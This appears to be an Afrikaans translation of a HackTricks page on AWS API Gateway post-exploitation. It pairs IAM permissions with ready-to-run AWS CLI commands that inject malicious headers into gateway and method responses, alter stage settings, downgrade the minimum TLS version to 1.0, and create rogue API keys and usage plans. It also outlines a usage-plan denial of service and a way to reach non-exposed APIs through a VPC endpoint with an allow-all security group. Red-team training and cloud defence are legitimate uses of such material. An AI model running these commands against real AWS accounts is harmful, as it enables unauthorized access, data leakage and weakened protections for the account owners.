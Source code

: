 # AWS - API Gateway Na-Aanval Ná Uitbuiting

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy in HackTricks wil adverteer** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## API Gateway

Vir meer inligting, kyk na:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Toegang tot nie-blootgestelde API's

Jy kan 'n eindpunt skep in [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) met die diens com.amazonaws.us-east-1.execute-api, blootstel die eindpunt in 'n netwerk waar jy toegang het (moontlik via 'n EC2-masjien) en ken 'n sekuriteitsgroep toe wat alle verbindinge toelaat.\
Dan sal jy vanaf die EC2-masjien die eindpunt kan bereik en dus die gateway API kan aanroep wat voorheen nie blootgestel was nie.

### Gebruiksplanne DoS

In die **Enumerasie**-afdeling kan jy sien hoe om die **gebruiksplan** van die sleutels te **verkry**. As jy die sleutel het en dit is **beperk** tot X gebruik **per maand**, kan jy dit eenvoudig gebruik en 'n DoS veroorsaak.

Die **API-sleutel** moet net ingesluit word in 'n **HTTP-kop** genaamd **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

'n Aanvaller met die toestemmings `apigateway:UpdateGatewayResponse` en `apigateway:CreateDeployment` kan **'n bestaande Gateway Response wysig om aangepaste koppe of respons-sjablone in te sluit wat sensitiewe inligting lek of skadelike skripte uitvoer**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potensiële Impak**: Uitlekking van sensitiewe inligting, uitvoering van skadelike skripte, of ongemagtigde toegang tot API-bronne.

{% hint style="info" %}
Benodig toetsing
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

'n Aanvaller met die toestemmings `apigateway:UpdateStage` en `apigateway:CreateDeployment` kan **'n bestaande API Gateway-stadium wysig om verkeer na 'n ander stadium om te lei of die keer
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potensiële Impak**: Onbevoegde toegang tot gekaapte data, ontwrigting of onderskepping van API-verkeer.

{% hint style="info" %}
Benodig toetsing
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

'n Aanvaller met die toestemmings `apigateway:PutMethodResponse` en `apigateway:CreateDeployment` kan **die metode-antwoord van 'n bestaande API Gateway REST API-metode wysig om aangepaste koppe of antwoord-sjablone in te sluit wat sensitiewe inligting lek of skadelike skripte uitvoer**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potensiële Impak**: Uitlek van sensitiewe inligting, uitvoering van skadelike skripte, of ongemagtigde toegang tot API-bronne.

{% hint style="info" %}
Benodig toetsing
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

'n Aanvaller met die toestemmings `apigateway:UpdateRestApi` en `apigateway:CreateDeployment` kan **die API Gateway REST API-instellings wysig om logboekhouding uit te skakel of die minimum TLS-weergawe te verander, wat moontlik die veiligheid van die API verswak**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potensiële Impak**: Verswakking van die API se sekuriteit, moontlik om ongemagtigde toegang toe te laat of sensitiewe inligting bloot te stel.

{% hint style="info" %}
Benodig toetsing
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

'n Aanvaller met toestemmings `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, en `apigateway:CreateUsagePlanKey` kan **nuwe API-sleutels skep, hulle koppel aan gebruikplanne, en dan hierdie sleutels gebruik vir ongemagtigde toegang tot API's**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potensiële Impak**: Ongeoorloofde toegang tot API-bronne, omseiling van sekuriteitskontroles.

{% hint style="info" %}
Benodig toetsing
{% endhint %}

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>
